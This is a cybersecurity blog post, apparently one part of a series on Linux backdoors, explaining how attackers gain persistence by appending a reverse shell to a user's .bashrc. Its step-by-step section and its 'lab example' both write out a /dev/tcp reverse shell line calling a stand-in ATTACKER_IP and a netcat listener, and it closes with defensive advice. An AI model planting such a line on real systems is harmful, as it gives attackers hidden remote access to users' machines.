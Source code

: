 ```yaml
---
title : "Linux Backdoors Part-III"
date : 2025-06-25
layout : post
categories : [BACKDOOR]
tags : [BASHRC, BACKDOOR, PERSISTENCE, LINUX]
author : jana
---
```


# Bashrc Backdoors: Persistence Through a Hidden Terminal Trap

Hey cybersecurity folks! 👋  

Welcome back to another episode of **“What did the attacker leave behind?”** 🎭  
Today, we’re exploring a stealthy persistence trick attackers love to hide in plain sight: **the `.bashrc` backdoor**.

Why is it dangerous? Because it blends in with everyday shell configuration files — the ones users *trust* but rarely inspect.  

Whether you’re sharpening red team skills, brushing up on blue team defenses, or just geeking out over elegant persistence, this one’s for you. 🚀  

---

## 🔍 What Is a Bashrc Backdoor?

A **bashrc backdoor** is a persistence method that abuses the `.bashrc` file — the script Bash runs every time a new **interactive shell** is launched.  

Attackers append a reverse shell payload to it, so whenever the user opens a terminal, the system silently connects back to the attacker.  

It’s like leaving a bug in someone’s coffee cup: subtle, invisible, and only activated when they take a sip. ☕🐛  

---

## 🧠 Understanding `.bashrc`

- Location: `~/.bashrc` (per user)  
- Executes: whenever a **non-login interactive shell** starts  
- Usual purpose: aliases, prompt tweaks, environment variables  
- Hidden danger: it can run **any shell command**, even malicious ones  

That flexibility makes `.bashrc` a perfect persistence target.  

---

## 🧰 The Attack: Step-by-Step

Here’s how an attacker might weaponize `.bashrc`:  

### ✅ Step 1: Initial Access  
The attacker first compromises the system (via exploit, weak creds, phishing, etc.).  

### ✅ Step 2: Payload Injection  
They append a reverse shell payload to the target user’s `.bashrc`:  

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /home/alice/.bashrc
```

Every time **Alice** opens a terminal, the reverse shell fires.  

### ✅ Step 3: Listener Setup  
On the attacker’s machine:  

```bash
nc -lvnp 4444
```

Netcat listens for incoming connections.  

### ✅ Step 4: Trigger  
Hours later, Alice logs in and opens a shell.  

💥 Boom — instant reverse shell connection for the attacker.  

---

## 🔁 Attack Flow Recap

| Step              | Action                                           |
|-------------------|-------------------------------------------------|
| 🎯 Initial Access | Attacker compromises target                     |
| 🐚 Inject Shell   | Reverse shell added to `.bashrc`                |
| 🎧 Listener       | Netcat listening on attacker’s machine           |
| 🔓 Trigger        | User opens terminal, payload executes           |
| 🧠 Access Regained| Attacker reconnects as that user                 |

---

## 🕵️ Why It’s Sneaky  

✅ Blends into a legitimate config file  
✅ Doesn’t create new files or binaries  
✅ Triggers only on user interaction  
✅ Often overlooked during forensics  

For sysadmins or developers who open terminals all day, this trick is especially effective.  

---

## 🧪 Lab Example (Safe Demo)

**On attacker machine:**  
```bash
nc -lvnp 4444
```

**On target machine:**  
```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> ~/.bashrc
bash
```

➡️ Reverse shell pops to the attacker as soon as the victim starts Bash.  

---

## ⚠️ Limitations  

- ❌ Only works when the user opens a shell  
- ❌ Easy to spot if `.bashrc` is inspected  
- ❌ Breaks if user switches shells (e.g., zsh, fish)  
- ❌ Detected by file integrity monitoring tools  

---

## 🛡️ Defense Strategies  

- **Audit Config Files:**  
  Regularly check `.bashrc`, `.profile`, `.bash_profile` for strange entries  
  Use integrity monitoring tools (AIDE, Tripwire, etc.)  

- **Monitor Network Traffic:**  
  Flag unusual outbound connections, especially from `bash` or `nc` processes  

- **User Awareness:**  
  Train users to report slow logins, weird prompts, or unexplained network activity  

---

## 🧠 Final Thoughts  

The `.bashrc` backdoor is simple, elegant, and effective. It requires no malware, no rootkits, just a clever abuse of Linux behavior.  

- For red teamers: a useful persistence trick.  
- For defenders: a reminder that **configuration files are attack surfaces too**.  
- For learners: an eye-opening way to understand subtle persistence methods.  

---

⚠️ **Disclaimer:** This post is for **educational purposes only**. Do not test these techniques on systems you do not own or have explicit permission to assess.  

Stay curious. Stay ethical. And always check your `.bashrc`. 😉  
